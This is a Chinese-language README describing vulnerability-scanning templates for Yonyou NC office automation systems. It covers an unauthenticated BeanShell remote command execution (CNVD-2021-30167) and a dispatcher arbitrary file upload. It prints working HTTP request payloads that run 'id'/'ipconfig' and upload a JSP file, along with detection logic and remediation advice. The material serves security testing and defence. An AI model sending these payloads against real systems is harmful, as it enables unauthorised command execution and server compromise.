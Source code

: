 # 办公自动化平台安全模板分类说明

本目录聚焦于主流办公自动化（OA）系统的安全风险，涵盖远程代码执行、未授权访问、信息泄露等典型漏洞，帮助安全测试人员快速定位和验证相关风险。

---

## 典型漏洞模板举例

### 用友 NC BeanShell 远程命令执行漏洞（CNVD-2021-30167）

**模板文件**：`CNVD-2021-30167.yaml`

#### 漏洞简介

用友 NC 系统的 BeanShell 组件存在远程命令执行漏洞。攻击者可通过 bsh.servlet.BshServlet 接口传入恶意脚本，无需认证即可在服务器上执行任意命令，危害极大。

#### 漏洞原理

该漏洞源于 BeanShell Servlet 对传入的 bsh.script 参数未做有效校验，直接将其作为脚本执行。攻击者可通过 POST 请求向 `/servlet/~ic/bsh.servlet.BshServlet` 接口提交任意命令（如 `exec("id")` 或 `exec("ipconfig")`），从而在服务器上执行系统命令。

#### 检测逻辑（YAML内容解析）

```yaml
id: CNVD-2021-30167

http:
  - raw:
      - | #linux
        POST /servlet/~ic/bsh.servlet.BshServlet HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        bsh.script=exec("id");
      - | #windows
        POST /servlet/~ic/bsh.servlet.BshServlet HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/x-www-form-urlencoded

        bsh.script=exec("ipconfig");

    matchers-condition: and
    matchers:
      - type: regex
        regex:
          - "uid="
          - "Windows IP"
        condition: or

      - type: word
        words:
          - "BeanShell Test Servlet"

      - type: status
        status:
          - 200
```

- 分别向目标接口发送执行 `id`（Linux）和 `ipconfig`（Windows）的命令。
- 响应中若包含 `uid=` 或 `Windows IP` 等关键字，且页面包含 `BeanShell Test Servlet` 且状态码为 200，则判定存在命令执行漏洞。

#### 防护建议

- 禁用或删除 BeanShell 相关接口，或对其添加严格的访问控制。
- 升级用友 NC 系统至官方修复版本。
- 对外部输入的脚本内容进行严格校验，避免任意代码执行。

---

### 用友 NC dispatcher 任意文件上传漏洞

**模板文件**：`yonyou-nc-dispatcher-fileupload.yaml`

#### 漏洞简介

用友 NC 系统的 dispatcher 接口存在任意文件上传漏洞。攻击者可通过该接口上传恶意脚本文件（如 webshell），无需认证即可在服务器上执行任意代码，导致系统被完全控制。

#### 漏洞原理

该漏洞源于 dispatcher 文件上传接口对文件类型、后缀及内容校验不严，未对上传用户进行权限验证。攻击者可构造特殊请求上传 `.jsp`、`.php` 等可执行脚本文件，随后直接访问该文件实现远程命令执行。

#### 检测逻辑（YAML内容解析）

```yaml
id: yonyou-nc-dispatcher-fileupload

http:
  - method: POST
    path:
      - "/uapjs/uploadFile.do"
    headers:
      Content-Type: multipart/form-data; boundary=----WebKitFormBoundary
    body: |
      ------WebKitFormBoundary
      Content-Disposition: form-data; name="file"; filename="test.jsp"
      Content-Type: application/octet-stream

      <% out.println("yonyou_upload_test"); %>
      ------WebKitFormBoundary--
    matchers:
      - type: word
        part: body
        words:
          - "yonyou_upload_test"
```

- 发送包含恶意 JSP 文件的 POST 请求到上传接口。
- 上传后访问该文件，若响应体中出现特定字符串，则判定存在任意文件上传漏洞。

#### 防护建议

- 升级用友 NC 系统至官方修复版本。
- 对上传接口进行严格的文件类型、后缀和内容校验，禁止上传可执行脚本文件。
- 增加权限校验，限制未授权用户访问上传接口。

---